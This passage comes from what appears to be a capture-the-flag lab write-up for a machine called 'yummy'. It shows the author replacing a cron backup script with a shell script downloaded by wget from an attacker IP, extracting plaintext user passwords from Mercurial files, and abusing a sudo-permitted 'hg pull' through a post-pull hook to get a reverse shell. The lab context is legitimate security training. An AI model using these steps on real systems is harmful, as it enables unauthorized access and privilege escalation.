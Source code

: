 ```console
mysql@yummy:/var/spool/cron$ cd /data/scripts
mysql@yummy:/data/scripts$ wget http://10.10.14.102/shell.sh
mysql@yummy:/data/scripts$ rm app_backup.sh
mysql@yummy:/data/scripts$ mv shell.sh app_backup.sh
```

We again run a netcat listener to catch the shell (it might take a few tries). 

## www-data to qa
We can find a password for the `qa` user in the `/var/www/qa_testing/.hg/store/data/app.py.i` file. 

```console
www-data@yummy:~$ cd /var/www/app-qatesting/.hg/store/data
www-data@yummy:~/app-qatesting/.hg/store/data$ strings app.py.i
'user': 'chef',
'password': '3wDo7gSRZIwIHRxZ!',

'user': 'qa',
'password': 'jPAd!XQCtn8Oc@2B',
```

We can now SSH as `qa`.

```console
$ ssh qa@yummy.htb
qa@yummy:~$ cat user.txt
```

# Root
## QA to Dev
The qa user can run a command as the dev user.

```console
qa@yummy:~$ sudo -l
User qa may run the following commands on localhost:
    (dev : dev) /usr/bin/hg pull /home/dev/app-production/
```

Looking online this command is used by Mercurial SCM. In our home folder we have a `.hgrc` file that contains some configuration options. One option of Mercurial is to create hooks that run before/after certain actions. From the [Mercurial Docs](https://repo.mercurial-scm.org/hg/help/hgrc) there is also a hook called `post-<command>` that runs after successful invocations of the associated command.

```console
qa@yummy:~$ nano .hgrc
[hooks]
post-pull = /tmp/shell.sh
```

Again we download our shell and modify the `.hgrc` file to run our shell after a pull request. Next we run a netcat listener and perform the pull request as the `dev` user.
